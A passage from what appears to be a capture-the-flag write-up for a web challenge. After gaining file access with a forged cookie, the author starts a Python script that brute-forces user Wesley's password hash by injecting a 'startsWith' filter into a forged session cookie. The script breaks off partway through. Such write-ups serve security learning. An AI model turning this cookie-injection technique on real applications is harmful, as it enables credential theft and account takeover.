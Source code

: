 which then gave us access to all the files on the platform

![All files](/assets/img/Download/Download_02.png)

### Extracting userhash with forged cookie
So we had access to all these files but when looking over them they were all dummy files.But then looking at the code i came to the idea that i could also try to extract the password of one of the users using this method. Based the types of messages sent i thought about extracting wesley's credentials because he looked like he was in charge.I wrote the following python script to automate brute forcing the password of the Wesley user. For a more indepth view on the code please scroll down to the detailed explanation of the code.

```python
import os
import itertools
import string
import json
import requests
import unicodedata
import re

def remove_control_characters(s):
    return "".join(ch for ch in s if unicodedata.category(ch)[0]!="C")

def generate_all_characters():
    characters = string.ascii_lowercase + string.digits
    return characters
def createjsonfile(letter,pwd):

  x = pwd+letter
  obj={"flashes":{"info":[],"error":[],"success":[]},"user":{"password": { "startsWith": x } ,"username":"WESLEY"}}
```